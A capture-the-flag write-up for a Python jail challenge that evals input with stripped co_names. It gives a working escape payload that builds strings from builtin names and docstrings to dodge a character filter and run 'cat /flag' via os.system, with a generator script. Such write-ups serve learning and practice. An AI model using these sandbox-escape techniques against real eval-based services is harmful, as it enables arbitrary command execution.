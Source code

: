 # A Horse with No Names

Categories: Jail/Python

Description:
> A Horse with No Names
>
>- 117 points
>
>"really confused horse in rembrandt style "
>
>
>Can you make it through the desert on [a horse with no names](https://www.youtube.com/watch?v=na47wMFfQCo)?
>
> `nc horse.chal.uiuc.tf 1337`
>
> [Dockerfile](resources/Dockerfile) [desert.py](resources/desert.py)

**Tags:** python, jail

## Solution

The source code of this challenge is pretty minimal

```python
#!/usr/bin/python3
import re
import random
horse = input("Begin your journey: ")
if re.match(r"[a-zA-Z]{4}", horse):
    print("It has begun raining, so you return home.")
elif len(set(re.findall(r"[\W]", horse))) > 4:
    print(set(re.findall(r"[\W]", horse)))
    print("A single horse cannot bear the weight of all those special characters. You return home.")
else:
    discovery = list(eval(compile(horse, "<horse>", "eval").replace(co_names=())))
    random.shuffle(discovery)
    print("You make it through the journey, but are severely dehydrated. This is all you can remember:", discovery)
```

Let's examine the requirements to reach the `eval` statement:

1. `re.match(r"[a-zA-Z]{4}", horse)` must return false. This means that our input must not start with exactly 4 alphabetic characters.
2. `len(set(re.findall(r"[\W]", horse))) > 4` must also return false. The `\W` , according to the [documentation](https://docs.python.org/3/library/re.html#regular-expression-syntax), matches any character which is not a word. For ASCII, characters it means that `\W` is equivalent to `[^a-zA-Z0-9_]`.
  - So, for example, our input must contain `<=4` symbols, counting spaces also as symbols.
  - Underscores are excluded
3. `eval` evaluates a single expression, so we have to make our payload a single expression or make it multiline and wrap it under `exec`.
4. Our input is not directly evaluated. It is filtered through `.replace(co_names=()`.

The weirdest part here is the `.replace(co_names=()`. Let's examine the documentation about what `co_names` are:

* From the [data model documentation](https://docs.python.org/3/reference/datamodel.html) we figure out that: <br/> `co_names` is a tuple containing the names used by the bytecode
* From the [inspect module documentations](https://docs.python.org/3/library/inspect.html) we figure out that: <br/> `co_names` is a tuple of names other than arguments and function locals

Let's also visualize this:

```python
horse='print("hello world" + str(1))'
code = compile(horse, "<horse>", "eval")
print(code.co_names)

# Out[14]: ('print', 'str')

modified_code = compile(horse, "<horse>", "eval").replace(co_names=())
eval(modified_code)

# Segmentation fault (core dumped)
```

Hmmm, if the `co_names` get replaced in the bytecode then we pretty certainly crash. But from the documentation of the inspect module above, we can see that arguments and function locals will not appear. So, let's test it:

```python
horse='lambda: print("hello world" + str(1))'
code = compile(horse, "<horse>", "eval")
print(code.co_names)

# Out[15]: ()
```

That's awesome! We cannot use a `def func():` inside an eval, but `lambda` functions work. So, let's try to construct a payload that will dump the flag within our lambda function.

```python
lambda: __builtins__.__import__("os").system("cat /flag")
```

Now, it is about gradually bypassing the restrictions.

### Bypassing `re.match(r"[a-zA-Z]{4}", horse)`

So, our payload must not start with exactly 4 characters. That's easy to do, we simply wrap our lambda function in parenthesis and also by the chance, invoke it:

```python
(lambda: __builtins__.__import__("os").system("cat /flag"))()
```

### Bypassing symbol restriction

We currently have too many symbols:

```log
$ python desert.modified.py
Begin your journey: (lambda: __builtins__.__import__("os").system("cat /flag"))()
symbols: . ( / : <space> " ) --- (7)
A single horse cannot bear the weight of all those special characters. You return home.
```

Let's analyze this:

* Parenthesis are requires (2 symbols) in order to have function calls
* Dot is required to access the appropriate fields. Another alternative would be `__dict__` and using square brackets `[ ]`, but this seems to be more costly in terms of symbols.
* Colon is required, otherwise we cannot have a lambda.

So, we have to get rid of: `/ <space> "`.

The space in front of the lambda can be removed, so: 

```python
(lambda:__builtins__.__import__("os").system("cat /flag"))()
```

Now, the remaining symbols in the payload are related to strings. However, we can come up with a neat way to generate them. Take for example "os". The character `o` can also be generated from the expression `open.__name__[0]` which is further equivalent to `open.__name__.__getitem__(0)`. Similarly, the character `s` can be generated as `set.__name__.__getitem__(0)`. So, we can generate the string "os" as:

```python
open.__name__.__getitem__(0)+set.__name__.__getitem__(0)
```

In this way, we avoided using the double quote special characters. The `__doc__` property of objects holds the documentation, so using that, we can even generate the harder "cat /flag" string which contains a space and a slash. However, in the above solution we introduced a new symbol, `+`. But, we can also replace that in a similar way.

When we do `'a'+'b'`, this is equivalent to `'a'.__add__('b')`. So, for "os", we finally have

```python
open.__name__.__getitem__(0).__add__(set.__name__.__getitem__(0))

# Out[17]: 'os'
```

This can be a really tedious process to generate "cat /flag", so let's automate it:

```python
def generator(cmd):
    # Make sure to use the same python version as the target when building the mapping
    # (because the __doc__ might change accross versions)
    # Target uses Python 3.8.10
    mapping = {
        'o': "open.__name__.__getitem__(0)",
        's': "set.__name__.__getitem__(0)",
        'c': "chr.__name__.__getitem__(0)",
        'h': "hash.__name__.__getitem__(0)",
        'e': "eval.__name__.__getitem__(0)",
        'a': "abs.__name__.__getitem__(0)",
        'd': "divmod.__name__.__getitem__(0)",
        'f': "float.__name__.__getitem__(0)",
        'l': "list.__name__.__getitem__(0)",
        'g': "globals.__name__.__getitem__(0)",
        't': "type.__name__.__getitem__(0)",
        'x': "hex.__name__.__getitem__(2)",
        ' ': "str(hash).__getitem__(9)",
        '-': "str(hash).__getitem__(6)",
        '.': "hash.__doc__.__getitem__(151)",
        '1': "dict.__doc__.__getitem__(361)",
        '/': "divmod.__doc__.__getitem__(20)",
    }
    for k,v in mapping.items():
        assert(k == eval(v))
    
    payload=''
    for ch in cmd:
        encoded_ch = mapping[ch]
        if len(payload) == 0:
            payload = encoded_ch
        else:
            payload += f".__add__({encoded_ch})"
    assert(eval(payload) == cmd)
    return payload

horse = f"(lambda:__builtins__.__import__({generator('os')}).system({generator('cat /flag.txt')}))()"
print(horse)
```

So, let's try out generate payload on the remote:

![success.png](resources/success.png)

And we got the flag!

`uiuctf{my_challenges_have_abandoned_any_pretense_of_practical_applicability_and_im_okay_with_that}`
